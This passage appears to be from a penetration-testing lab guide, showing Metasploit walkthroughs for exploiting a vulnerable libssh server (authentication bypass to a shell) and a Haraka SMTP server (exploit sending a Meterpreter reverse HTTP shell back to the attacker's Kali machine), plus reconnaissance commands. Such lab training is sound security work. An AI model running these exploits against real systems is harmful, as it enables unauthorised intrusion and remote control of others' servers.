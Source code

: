 ### 6.3. Exploiting A Vulnerable SSH Server

SSH (Secure Shell) is a network protocol that allows secure access to remote systems over an unsecured network. It provides encrypted communication between a client and a server, typically used for remote administration, file transfers, and tunneling.

**Objective:** Get a shell on the target by exploiting the vulnerable server using a suitable Metasploit module.

```shell
service postgresql  start && msfconsole
db_nmap -sV -O <target_IP>
services

search libssh
use auxiliary/scanner/ssh/libssh_auth_bypass
show info
set RHOSTS <target_IP>
set SPAWN_PTY true
# SPAWN_PTY is an option within Metasploit’s libssh module that determines whether to spawn a pseudo-terminal (PTY) upon successful exploitation.
run
sessions -i 1

whoami
cat /etc/*release
uname -r
```

### 6.4. Exploiting A Vulnerable SMTP Server

**Objective:** Your task is to fingerprint the application using command line tools available in Kali and then exploit the application using the appropriate Metasploit module. Get a shell on the target!

```shell
ping -c 1 <target_IP>
nmap -sV -O <target_IP>
# TCP port 25 is open and running Haraka SMTPD (version 2.8.8), which is an SMTP (Simple Mail Transfer Protocol) server. Haraka is an open-source SMTP server designed for high performance and scalability.

service postgresql start && msfconsole
workspace -a Haraka
search haraka

# Load the Haraka SMTP Exploit module in Metasploit
use exploit/linux/smtp/haraka  
# Set the remote host (target SMTP server) that we want to exploit
set RHOST <target_IP> 
# Set the local server port for handling incoming connections (Default is 9898)
# This is necessary for receiving the reverse connection from the exploited target.
set SRVPORT 9898  
# Specify the target email address to send the malicious payload
# In this case, "root@attackdefense.test" is the intended recipient on the target SMTP server.
set email_to root@attackdefense.test  
# Select the payload to be used in the exploit
# We are using a Meterpreter reverse HTTP shell for a stable connection.
set payload linux/x64/meterpreter_reverse_http  
# Define the local host (our attack machine) that will receive the reverse shell connection
set LHOST <kali_IP>
# Execute the exploit and attempt to gain access to the target system
exploit  

```